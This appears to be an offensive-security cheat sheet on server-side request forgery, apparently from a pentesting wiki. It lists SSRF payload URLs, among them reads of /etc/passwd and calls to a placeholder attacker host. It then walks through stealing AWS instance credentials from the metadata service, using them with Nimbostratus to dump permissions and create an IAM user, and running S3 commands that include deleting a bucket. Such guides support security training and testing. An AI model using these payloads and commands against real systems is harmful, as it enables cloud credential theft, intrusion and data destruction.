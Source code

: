 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. In the examples below, `localhost` is used in the URL to access to data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:1234
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be blind.

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?url=dict://[evilhost]:1234/
http://[host]/page.php?url=sftp://[evilhost]:1234/
http://[host]/page.php?url=ldap://localhost:1234/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.

There are two metadata standards for the AWS API - the newest one requires you to generate a short-term token before issuing commands. However, the older non-token version does not seem to be going away, so you could simply use `curl http://169.254.169.254/whatever` to get the same data.

The following command from [Amazon's metadata documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) allows you to generate a 6-hour token, save it in a variable and display the top-level metadata items:

```text
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```

The top-level metadata items will look something like this: 

```text
ami-id
ami-launch-index
...
public-keys/
security-groups
```

From there, you can make calls to the API to view each of the metadata items in detail. 

For example, the following command lets you view startup scripts for the instance, which may reveal credentials or paths to sensitive S3 buckets:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
```

To view roles for the instance:

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Once you have a role name, you can request credentials for that role: 

```text
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/SomeRole

{
  "Code" : "Success",
  "LastUpdated" : "2019-12-03T18:08:16Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "V...",
  "Token" : "SomeBase64==",
  "Expiration" : "2019-12-04T00:17:43Z"

```

At this point you may want to consider automated AWS metadata enumeration tools like [Nimbostratus](https://andresriancho.github.io/nimbostratus/) to determine the permissions available to a role:

```text
sudo python nimbostratus dump-permissions --access-key=ASIA... --secret-key=V...
```

You can also attempt to create a new user, as a proof-of-concept:

```text
sudo python nimbostratus create-iam-user --access-key=ASIA... --secret-key=p...
```

#### Enumerating S3 buckets

The [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3.html) can be used to poke around connected S3 buckets. Some useful commands:

```text
aws s3 mb s3://bucket-name            # create a bucket
aws s3 ls                             # list buckets
aws s3 ls s3://bucket-name            # list things in a bucket
aws s3 rb s3://bucket-name --force    # delete bucket + contents
```

## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [SSRF payloads for many cloud providers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

